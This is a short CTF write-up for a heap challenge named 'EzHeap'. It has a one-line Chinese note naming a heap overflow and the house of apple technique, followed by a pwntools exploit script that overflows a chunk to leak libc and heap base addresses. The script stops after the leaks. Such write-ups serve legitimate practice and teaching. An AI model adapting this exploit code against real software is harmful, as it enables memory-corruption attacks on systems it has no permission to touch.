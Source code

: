 ## EzHeap
### 分析
有堆溢出漏洞，正常打house of apple

### exp
```python
from pwn import *

p = process("./EzHeap")

#context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
context.arch = 'amd64'

elf = ELF("./EzHeap")
libc = ELF("./libc.so.6")

def add(size,content):
    p.sendlineafter(b"choice >> ",b'1')
    p.sendlineafter(b"size:",str(size).encode())
    p.sendafter(b"content:",content)

def delete(idx):
    p.sendlineafter(b"choice >> ",b'2')
    p.sendlineafter(b"idx:",str(idx).encode())

def edit(idx,size,content):
    p.sendlineafter(b"choice >> ",b'3')
    p.sendlineafter(b"idx:",str(idx).encode())
    p.sendlineafter(b"size:",str(size).encode())
    p.sendafter(b"content:",content)

def show(idx):
    p.sendlineafter(b"choice >> ",b'4')
    p.sendlineafter(b"idx:",str(idx).encode())

def Exit():
    p.sendlineafter(b"choice >> ",b'5')

add(0x200,b'a') # 0
add(0x490,b'a') # 1
add(0x1a0,b'a') # 2
add(0x480,b'b') # 3
add(0x500,b'c') # 4
delete(1)
add(0x500,b'g') # 1
delete(3)

edit(0,0x300,b'a'*0x200 + b'b'*0x10)
show(0)
p.recvuntil(b'b'*0x10)
libc_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = libc_addr - 0x21b0f0
log.success("libc_base ==>> " + hex(libc_base))

edit(0,0x300,b'a'*0x200 + b'b'*0x20)
show(0)
p.recvuntil(b'b'*0x20)
heap_addr = u64(p.recv(6).ljust(8,b'\x00'))
heap_base = heap_addr - 0x002510
log.success("heap_base ==>> " + hex(heap_base))

```